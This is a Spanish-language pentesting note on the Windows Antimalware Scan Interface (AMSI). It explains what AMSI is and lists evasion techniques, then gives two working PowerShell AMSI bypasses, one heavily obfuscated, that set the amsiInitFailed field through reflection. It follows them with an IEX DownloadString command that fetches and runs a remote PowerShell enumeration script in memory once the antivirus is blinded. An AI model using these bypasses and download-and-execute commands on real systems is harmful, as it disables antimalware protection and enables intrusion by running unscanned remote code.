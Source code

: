 # AMSI

Tags: #AD #Windows #Powershell #AMSI #Evasion 

* [AMSI.fail](https://amsi.fail/)

AMSI (Antimalware Scan Interface) es una interfaz estándar desarrollada por Microsoft para que las soluciones antimalware de Windows puedan analizar contenido en busca de actividades maliciosas. Introducida con Windows 10, AMSI trabaja junto a otros componentes de seguridad, como Windows Defender, para ofrecer una capa adicional de protección.

De forma sencilla, AMSI permite que aplicaciones y servicios envíen contenido a un motor antimalware para ser evaluado antes de su ejecución, lo que resulta especialmente útil para analizar scripts en tiempo real. Es capaz de detectar y escanear scripts en lenguajes como PowerShell, VBScript o Ruby, incluso cuando están ofuscados.
## Por qué los ciberdelincuentes buscan evadir AMSI?

```bash 
AMSI (Antimalware Scan Interface) representa una barrera crítica para los atacantes debido a su capacidad para detectar comportamientos maliciosos en tiempo real, incluso antes de que el código se ejecute. Esto lo convierte en un objetivo prioritario para quienes intentan evadir la detección y garantizar el éxito de sus ataques, especialmente aquellos basados en scripts ofuscados o técnicas de ejecución en memoria.

- Detección en tiempo real: AMSI analiza el contenido justo antes de que se ejecute, bloqueando ataques antes de que se materialicen, lo que obliga a los ciberdelincuentes a evadir esta capa de seguridad para ejecutar su código malicioso.
    
- Análisis de scripts ofuscados: Aunque los atacantes ofuscan sus scripts para evitar las soluciones tradicionales, AMSI puede escanearlos tras ser desofuscados, cuando están en su forma original, lo que complica los intentos de ocultar intenciones maliciosas.
    
- Integración amplia: AMSI no se limita a analizar scripts; también puede escanear otros contenidos arbitrarios enviados por diversas aplicaciones y servicios, ampliando su alcance y reduciendo las posibilidades de éxito de un atacante.
    

Dada su eficacia, los ciberdelincuentes recurren a diversas técnicas para evadir AMSI, como:

- Cargar bibliotecas antiguas: Usar versiones anteriores de DLLs que no soporten AMSI para desactivar su funcionalidad.
- Manipulación de memoria: Alterar áreas de memoria relacionadas con AMSI para inutilizarlo.
- Ofuscación avanzada: Implementar métodos innovadores para intentar superar las capacidades de análisis de AMSI.
- Abusar de herramientas legítimas: Utilizar técnicas como _Living off the Land_ para ejecutar acciones maliciosas mediante herramientas legítimas que pueden eludir el escaneo o generar confianza.

La capacidad de AMSI para identificar amenazas en tiempo real lo convierte en un desafío constante para los atacantes, quienes buscan superarlo con técnicas cada vez más sofisticadas.
```

Los siguientes scripts los podemos ejecutar en la consola de  **Powershell**  antes de  ejecutar un comando que descargue un binario que detecte el antivirus como lo puede ser **adPeas**, etc... 

```powershell 
❯ S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
# Ya no nos lo detectara el Antivirus 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/adPEAS/main/adPEAS.ps1')
```

## Otra alternativa para el ByPass:

```Powershell 
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")
```